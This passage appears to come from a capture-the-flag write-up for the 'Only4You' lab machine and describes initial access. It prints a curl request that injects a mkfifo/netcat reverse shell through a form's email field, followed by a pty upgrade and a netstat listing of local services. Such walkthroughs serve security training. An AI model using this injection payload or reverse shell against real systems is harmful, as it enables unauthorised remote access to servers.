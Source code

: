 ## Initial Access

After some trial and error, I was successful getting a shell with the following command:

```
curl --output - http://only4you.htb/ -d "name=a&email=aa@aa.com;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc 10.10.14.15 8000>/tmp/f;&subject=a&message=a"
```

This gave me a simple reverse shell onto the box. You can make it a little nicer using the `python` pty trick:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
bash-5.0$ ls -al
ls -al
total 16
drwxr-xr-x  4 root     root     4096 Mar 30 11:51 .
drwxr-xr-x 13 root     root     4096 Mar 30 11:51 ..
drwxrwx---  6 www-data www-data 4096 Apr 28 03:35 beta.only4you.htb
drwxrwx---  5 www-data www-data 4096 Apr 28 04:31 only4you.htb
bash-5.0$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After some poking around the box, it looks like there are a number of listening ports that are attached to localhost:

```
www-data@only4you:/tmp$ netstat -anopt
netstat -anopt
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1035/nginx: worker   off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 10.10.11.210:80         10.10.16.9:37352        TIME_WAIT   -                    timewait (51.70/0/0)
tcp        0      1 10.10.11.210:38040      8.8.8.8:53              SYN_SENT    -                    on (7.10/3/0)
tcp        0      0 127.0.0.1:46802         127.0.0.1:3306          TIME_WAIT   -                    timewait (51.96/0/0)
tcp        0      0 127.0.0.1:46786         127.0.0.1:3306          TIME_WAIT   -                    timewait (50.95/0/0)
tcp        0    179 10.10.11.210:44936      10.10.14.15:8001        ESTABLISHED 1439/nc              on (0.27/0/0)
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -                    off (0.00/0/0)
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      -                    off (0.00/0/0)
```
